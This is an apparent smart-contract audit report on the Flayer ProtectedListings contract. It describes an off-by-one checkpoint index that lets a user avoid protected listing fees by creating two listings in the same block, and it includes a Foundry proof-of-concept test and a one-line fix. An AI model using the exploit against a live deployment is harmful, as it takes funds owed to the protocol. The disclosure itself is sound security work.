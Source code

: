 # User can avoid protected listing fee.
## Summary
`ProtectedListings._createCheckpoint()` function returns incorrect index when the timestamp of last checkpoint is equal to `block.timestamp`. Exploiting this vulnerability, user can avoid protected listing fee.

## Vulnerability Detail
`ProtectedListings.createListings()` function is following.
```solidity
    function createListings(CreateListing[] calldata _createListings) public nonReentrant lockerNotPaused {
        // Loop variables
        uint checkpointIndex;
        bytes32 checkpointKey;
        uint tokensIdsLength;
        uint tokensReceived;

        // Loop over the unique listing structures
        for (uint i; i < _createListings.length; ++i) {
            // Store our listing for cheaper access
            CreateListing calldata listing = _createListings[i];

            // Ensure our listing will be valid
            _validateCreateListing(listing);

            // Update our checkpoint for the collection if it has not been done yet for
            // the listing collection.
            checkpointKey = keccak256(abi.encodePacked('checkpointIndex', listing.collection));
            assembly { checkpointIndex := tload(checkpointKey) }
            if (checkpointIndex == 0) {
137:            checkpointIndex = _createCheckpoint(listing.collection);
                assembly { tstore(checkpointKey, checkpointIndex) }
            }

            // Map our listings
            tokensIdsLength = listing.tokenIds.length;
            tokensReceived = _mapListings(listing, tokensIdsLength, checkpointIndex) * 10 ** locker.collectionToken(listing.collection).denomination();

            // Register our listing type
            unchecked {
                listingCount[listing.collection] += tokensIdsLength;
            }

            // Deposit the tokens into the locker and distribute ERC20 to user
            _depositNftsAndReceiveTokens(listing, tokensReceived);

            // Event fire
            emit ListingsCreated(listing.collection, listing.tokenIds, listing.listing, tokensReceived, msg.sender);
        }
    }
```
The above function get the last checkpoint index of the collection on `L137` and save it to calculate the compound factor in `unlockPrice()` function.
`ProtectedListings.createListings()` function is following.
```solidity
    function _createCheckpoint(address _collection) internal returns (uint index_) {
        // Determine the index that will be created
        index_ = collectionCheckpoints[_collection].length;

        // Register the checkpoint that has been created
        emit CheckpointCreated(_collection, index_);

        // If this is our first checkpoint, then our logic will be different as we won't have
        // a previous checkpoint to compare against and we don't want to underflow the index.
        if (index_ == 0) {
            // Calculate the current interest rate based on utilization
            (, uint _utilizationRate) = utilizationRate(_collection);

            // We don't have a previous checkpoint to calculate against, so we initiate our
            // first checkpoint with base data.
            collectionCheckpoints[_collection].push(
                Checkpoint({
                    compoundedFactor: locker.taxCalculator().calculateCompoundedFactor({
                        _previousCompoundedFactor: 1e18,
                        _utilizationRate: _utilizationRate,
                        _timePeriod: 0
                    }),
                    timestamp: block.timestamp
                })
            );

            return index_;
        }

        // Get our new (current) checkpoint
        Checkpoint memory checkpoint = _currentCheckpoint(_collection);

        // If no time has passed in our new checkpoint, then we just need to update the
        // utilization rate of the existing checkpoint.
        if (checkpoint.timestamp == collectionCheckpoints[_collection][index_ - 1].timestamp) {
            collectionCheckpoints[_collection][index_ - 1].compoundedFactor = checkpoint.compoundedFactor;
566:        return index_; // @audit index is out-of-bound of collectionCheckpoints[_collection]
        }

        // Store the new (current) checkpoint
        collectionCheckpoints[_collection].push(checkpoint);
    }
```
As can be seen in `L566`, the above function returns `last index of collectionCheckpoints[_collection]` + `1` when the timestamp of last checkpoint is equal to `block.timestamp`. Exploiting this vulnerability, user can avoid protected listing fee.

PoC:
Add the following test code into `ProtectedListings.t.sol`.
```solidity
    function test_CreateListingsError() public {
        erc721a.mint(address(this), 0);
        erc721a.mint(address(this), 1);
        
        erc721a.setApprovalForAll(address(protectedListings), true);
        erc721b.setApprovalForAll(address(protectedListings), true);

        // create listing for tokenId = 0
        IProtectedListings.CreateListing[] memory _listings = new IProtectedListings.CreateListing[](1);
        _listings[0] = IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(0),
            listing: IProtectedListings.ProtectedListing({
                owner: payable(address(this)),
                tokenTaken: 0.4 ether,
                checkpoint: 0
            })
        });
        protectedListings.createListings(_listings);

        // create listing for tokenId = 1 within the same block
        _listings[0].tokenIds = _tokenIdToArray(1);
        protectedListings.createListings(_listings);

        vm.warp(block.timestamp + 7 days);

        // unlock price for tokenId = 0 is increased.
        assertEq(protectedListings.unlockPrice(address(erc721a), 0), 402485479451875840);

        // ulockPrice() for tokenId = 1 will revert because of out-of-bound access.
        vm.expectRevert();
        protectedListings.unlockPrice(address(erc721a), 1);

        vm.startPrank(address(listings));
        protectedListings.createCheckpoint(address(erc721a));
        vm.stopPrank();
        
        // unlock price for tokenId = 1 is not increased at all.
        assertEq(protectedListings.unlockPrice(address(erc721a), 1), 0.4 ether);
    }
```
In the above test code, user avoid fees for tokenId = 1 by creating the listing for tokenId = 1 within the same block for tokenId = 0.

## Impact
User can avoid protected listing fee. It meanas loss of funds for the protocol.

## Code Snippet
- [ProtectedListings._createCheckpoint()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L566)

## Tool used
Manual Review

## Recommendation
Modify `ProtectedListings._createCheckpoint()` function as below.
```solidity
    function _createCheckpoint(address _collection) internal returns (uint index_) {
        // Determine the index that will be created
        index_ = collectionCheckpoints[_collection].length;

        // Register the checkpoint that has been created
        emit CheckpointCreated(_collection, index_);

        // If this is our first checkpoint, then our logic will be different as we won't have
        // a previous checkpoint to compare against and we don't want to underflow the index.
        if (index_ == 0) {
            // Calculate the current interest rate based on utilization
            (, uint _utilizationRate) = utilizationRate(_collection);

            // We don't have a previous checkpoint to calculate against, so we initiate our
            // first checkpoint with base data.
            collectionCheckpoints[_collection].push(
                Checkpoint({
                    compoundedFactor: locker.taxCalculator().calculateCompoundedFactor({
                        _previousCompoundedFactor: 1e18,
                        _utilizationRate: _utilizationRate,
                        _timePeriod: 0
                    }),
                    timestamp: block.timestamp
                })
            );

            return index_;
        }

        // Get our new (current) checkpoint
        Checkpoint memory checkpoint = _currentCheckpoint(_collection);

        // If no time has passed in our new checkpoint, then we just need to update the
        // utilization rate of the existing checkpoint.
        if (checkpoint.timestamp == collectionCheckpoints[_collection][index_ - 1].timestamp) {
            collectionCheckpoints[_collection][index_ - 1].compoundedFactor = checkpoint.compoundedFactor;
--          return index_;
++          return index_ - 1;
        }

        // Store the new (current) checkpoint
        collectionCheckpoints[_collection].push(checkpoint);
    }
```